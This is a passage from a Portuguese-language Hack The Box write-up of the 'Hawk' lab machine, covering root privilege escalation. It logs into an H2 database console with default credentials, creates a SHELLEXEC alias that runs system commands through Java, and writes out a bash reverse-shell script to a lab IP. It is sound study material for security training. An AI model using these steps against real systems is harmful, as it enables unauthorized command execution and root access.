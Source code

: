 Alguém fez um script para isso, e funciona bem

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-hawk/H_back8.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-hawk/H_back9.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-hawk/H_back10.png)

# Escalação de Privilégio 3º - Shell de root

Bom, nosso objetivo é pegar um shell de root, não apenas ler arquivos.

O primeiro modo, e claramente o mais fácil é trocar o banco de dados para algo que não existe, E logar com as credenciais padrão da aplicação.

Pesquisamos por qual é o login padrão da aplicação

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-hawk/H_s.png)

Usuário: sa / Senha: em branco

Então realizamos o login, mudamos o banco de dados e colocamos o username

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-hawk/H_s1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-hawk/H_s2.png)

Agora verificamos no blog como fazemos pra ter RCE na máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-hawk/H_s3.png)

Realizamos exatamente igual

`CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-hawk/H_s4.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-hawk/H_s5.png)

Testamos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-hawk/H_s6.png)

Particularmente não sei pq nenhum dos shells do PentestMonkey funcionou, então eu criei um arquivo que me daria um reverse shell na máquina e executei ele como root

shell.sh
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.40/443 0>&1
```

